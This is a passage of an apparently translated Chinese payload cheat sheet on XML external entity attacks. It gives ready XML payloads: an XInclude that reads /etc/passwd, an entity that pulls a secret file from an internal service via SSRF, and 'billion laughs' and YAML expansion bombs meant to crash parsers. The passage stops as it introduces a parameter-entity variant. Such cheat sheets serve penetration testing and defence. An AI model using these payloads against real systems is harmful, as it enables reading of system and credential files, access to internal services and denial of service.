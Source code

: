 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## 利用XXE执行SSRF攻击

XXE可以与[SSRF漏洞](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)结合，针对网络上的其他服务。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

## 利用XXE执行拒绝服务攻击

:warning: 这些攻击可能会使服务或服务器崩溃，请勿在生产环境中使用。

### 十亿次笑攻击

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### YAML攻击

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### 参数笑攻击

十亿次笑攻击的变体，使用参数实体的延迟解释，由Sebastian Pipping开发。
